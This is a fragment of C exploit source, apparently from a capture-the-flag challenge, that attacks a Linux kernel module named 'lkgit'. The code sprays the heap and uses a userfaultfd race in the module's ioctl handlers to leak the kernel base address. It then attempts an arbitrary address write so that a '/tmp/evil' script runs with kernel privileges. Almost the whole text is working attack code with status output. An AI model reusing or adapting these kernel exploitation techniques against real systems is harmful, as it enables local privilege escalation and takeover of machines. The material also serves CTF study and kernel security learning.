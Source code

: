 ```exploit.c
  printf("[.] target addr: %p\n", target_addr);
  printf("[.] log:         %p\n", log);

  // spray
  puts("[.] heap spraying...");
  for (int ix = 0; ix != 0x90; ++ix) {
    tmpfd[ix] = open("/proc/self/stat", O_RDONLY);
  }

  // commit a file normaly
  char content_buf[FILE_MAXSZ] = {0};
  char msg_buf[MESSAGE_MAXSZ] = {0};
  char hash_buf[HASH_SIZE] = {0};
  memset(content_buf, 'A', FILE_MAXSZ); // hash became 00000000000...
  strcpy(msg_buf, "This is normal commit.\x00");
  hash_object req = {
      .content = content_buf,
      .message = msg_buf,
  };
  assert(ioctl(lkgit_fd, LKGIT_HASH_OBJECT, &req) == 0);
  printf("[+] hash: %s\n", hash_to_string(req.hash));

  memset(content_buf, 0, FILE_MAXSZ);
  strcpy(content_buf, "/tmp/evil\x00"); // hash is 46556c00000000000000000000000000
  strcpy(msg_buf, "This is second commit.\x00");
  assert(ioctl(lkgit_fd, LKGIT_HASH_OBJECT, &req) == 0);
  printf("[+] hash: %s\n", hash_to_string(req.hash));


  // try to get a log and invoke race
  // this fault happens when copy_to_user(to = message), not when copy_to_user(to = content).
  memset(log->hash, 0, HASH_SIZE);
  assert(ioctl(lkgit_fd, LKGIT_GET_OBJECT, log) == 0);
  print_log(log);

  // kernbase leak
  single_start = *(unsigned long*)log->hash;
  kernbase = single_start - off_single_start;
  printf("[!] single_start: %lx\n", single_start);
  printf("[!] kernbase: %lx\n", kernbase);

  // prepare for race again.
  target_len = PAGE * 2;
  target_addr = (void*)NO_FAULT_ADDR + PAGE*2;
  register_userfaultfd_and_halt();
  sleep(1);

  // amend to race/AAW
  log = (log_object *)(target_addr + PAGE - (HASH_SIZE + FILE_MAXSZ));
  memcpy(log->hash, string_to_hash("46556c00000000000000000000000000"), HASH_SIZE); // hash is 46556c00000000000000000000000000
  puts("[.] trying to race to achive AAW...");
  int e = ioctl(lkgit_fd, LKGIT_AMEND_MESSAGE, log);
  if (e != 0) {
    if (e == -LKGIT_ERR_OBJECT_NOTFOUND) {
      printf("[ERROR] object not found: %s\n", hash_to_string(log->hash));
    } else {
      printf("[ERROR] unknown error in AMEND.\n");
    }
  }
 
  // nirugiri
  puts("[!] executing evil script...");
```